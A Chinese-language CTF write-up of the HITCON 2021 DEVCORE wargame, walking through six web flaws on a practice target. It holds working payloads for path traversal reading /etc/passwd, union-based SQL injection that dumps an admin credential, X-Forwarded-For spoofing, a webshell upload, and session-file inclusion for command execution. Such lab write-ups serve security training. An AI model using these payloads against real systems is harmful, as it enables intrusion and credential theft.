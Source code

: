 ```yaml
---
title: HITCON 2021 - DEVCORE Wargame Writeups
date: 2021-12-05 13:11:59
tags:
    - ctf
---
```


官方 src : https://github.com/DEVCORE-Wargame/HITCON-2021

沒想到自己也能有把 DEVCORE 題目破台的一天 痛哭流涕 QQ

![](https://i.imgur.com/QEnOzak.png)

<!-- more -->

雖然我是照弱點順序寫 writeup
但其實我在打的的時候是 1 -> 3 -> 4 -> 5 -> 6 -> 2
完全忽略了 broken access 這個超常見的洞然後找不到 flag XD

# 弱點 01：Path Traversal

從 `image.php` 的 GET 變數 id 可以發現是 base64 後的檔案名稱
猜測可以進行 LFI
用 `http://web.ctf.devcore.tw/image.php?id=Li4vLi4vLi4vLi4vZXRjL3Bhc3N3ZA==` 驗證可以取得 `/etc/passwd`
但我們不知道 web root 位置
因此使用 `/proc/self/cwd/`
最後發現 flag 在 `include.php` 中

- payload
```
http://web.ctf.devcore.tw/image.php?id=Li4vLi4vLi4vLi4vcHJvYy9zZWxmL2N3ZC9pbmNsdWRlLnBocA==
```

![](https://i.imgur.com/GufOcNo.png)



- flag : `DEVCORE{no.1_path_traverse_to_the_m00n}`

---

# 弱點 02：Broken Access Control

這邊其實我是 RCE 才回頭撈 db 的 wwwww

原本思路應該是
從 `order.php` 中可以看到傳入的 GET 參數 `sig` 被傳進 `get_sig_hash()` 後跟 db 內的 `sig_hash` 比較
在條件中 先檢查了 hash_sig 後才跟 db 比較
`get_sig_hash()` 最後是返回 `hash_hmac()` 的結果
如果傳進去的 `data` 是一個陣列而不是一個字串則會返回 `false` 從而繞過比較

- payload
```
http://web.ctf.devcore.tw/order.php?id=1&sig[]=aaa
```

![](https://i.imgur.com/BE5Bbwm.png)

- flag : `DEVCORE{no.2_bre8k_acc3ss_c0ntrol}`

---

# 弱點 03：SQL Injection

從 `print.php` 中可以發現未對 GET 變數 `id` 進行過濾
且直接將 id 串接至 sql 語句
利用 union based leak 出所有 db 結構
```
http://web.ctf.devcore.tw/print.php?sig=1&id=-1%20union%20select%201,2,group_concat(column_name),4,5,6,7,8,9%20from%20information_schema.columns%20where%20table_name=%27items%27
```

- web
    - items
        - id,title,description
    - rate_limit
        - ip,last_visit,visit_times
    - orders
        - id,name,email,phone,status,sig_hash,order_date,address,note
    - options
        - key,value
    - backend_users
        - id,username,password,description

- payload
```
http://web.ctf.devcore.tw/print.php?sig=1&id=-1%20union%20select%201,2,group_concat(description),4,5,6,7,8,9%20from%20backend_users
```

- admin creds
    - `admin:u=479_p5jV:Fsq(2`

![](https://i.imgur.com/Vb1lOZy.png)

- flag : `DEVCORE{no.3_sql_injection_my_passw0rd_is_y0urs}`

---

# 弱點 04：Use of Less Trusted Source

從 `/proc/self/mounts` leak 出的後台地址位於 `/usr/share/nginx/b8ck3nd/`
並且得知後台的`include.php` 中有檢查連線 IP 是否來自指定 IP
可以透過 `X-Forwarded-For` 偽造
並且只用弱點 03 得到的 admin 帳密進行登入

- payload
```bash
curl -H "X-Forwarded-For: 127.0.0.1" -b "PHPSESSID=dvcj3di7tqkfl3p67qikjvnckh"  "http://web.ctf.devcore.tw/b8ck3nd/"
```

![](https://i.imgur.com/jMl4rPe.png)

- flag : `DEVCORE{no.4_x-forward-for_2b_or_n0t_2b}`

---

# 弱點 05：Unrestricted File Upload

在 `/b8ck3nd/upload.php` 中
存在 POST 變數 `rename` 跟 `folder` 可以自訂檔名以及路徑
上傳 webshell 後就彈出 flag 了

- payload
```bash
curl -X POST -H "X-Forwarded-For: 127.0.0.1" -b "PHPSESSID=dvcj3di7tqkfl3p67qikjvnckh" -F "file=@chess.php" -F "rename=chess.php" -F "folder=../../../../tmp" "http://web.ctf.devcore.tw/b8ck3nd/upload.php"
```

![](https://i.imgur.com/7CWHJUS.png)


- flag : `DEVCORE{no.5_file_uploaded_wheres_my_sh3ll}`

---

# 弱點 06：Local File Inclusion

利用弱點 05 覆蓋自己的 session
利用 `include.php` 中會對 `$_SESSION['lang']` 進行 include
寫入 web shell 且複寫 session file 達到 RCE

- sess_xxx
    `lang|s:27:"../../../../../../tmp/chess";`
    
- payload
```bash
curl -X POST -b "PHPSESSID=dvcj3di7tqkfl3p67qikjvnckh" -H "X-Forwarded-For: 127.0.0.1" -F "file=@sess_dvcj3di7tqkfl3p67qikjvnckh" -F "rename=sess_dvcj3di7tqkfl3p67qikjvnckh" -F "folder=../../../../tmp" "http://web.ctf.devcore.tw/b8ck3nd/upload.php"
```
```
http://web.ctf.devcore.tw/?cmd=/readflag
```



![](https://i.imgur.com/WB8RwuV.png)

- flag : `DEVCORE{no.6_local_file_include_t0_rescu3}`